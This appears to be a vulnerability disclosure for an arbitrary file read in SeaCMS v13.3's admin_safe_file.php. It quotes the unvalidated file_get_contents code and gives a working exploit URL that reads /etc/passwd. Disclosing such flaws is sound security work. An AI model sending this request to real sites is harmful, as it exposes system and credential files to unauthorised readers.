

## Arbitrary File Read  in admin_safe_file.php

### Introduction

SeaCMS v13.3 is vulnerable to an arbitrary file read vulnerability. This vulnerability is located in the utility file `admin_safe_file.php`, where insufficient parameter validation allows attackers to read arbitrary files.

### Vulnerability Analysis

The vulnerability exists in the `admin_safe_file.php` file, where the `file_get_contents` function is used without proper restrictions on the input parameters, leading to arbitrary file read.

The key code is as follows:
```php
if($action=="download" && isset($_GET['file']) && trim($_GET['file'])!="")  
{  
 $file = $_GET['file'];  
 ob_clean();  
 if (@file_exists($file)) {  
  header("Content-type: application/octet-stream");  
     header("Content-Disposition: filename=\"".basename($file)."\"");  
  echo file_get_contents($file);  
 }  
 exit();  
}
```

### Exploitation

By accessing the following URL with the specified parameters, an attacker can read arbitrary files, such as `/etc/passwd`:

```r
ywmba6/admin_safe.php?action=download&file=/etc/passwd
```

As shown in the image below, the contents of `/etc/passwd` are successfully read:

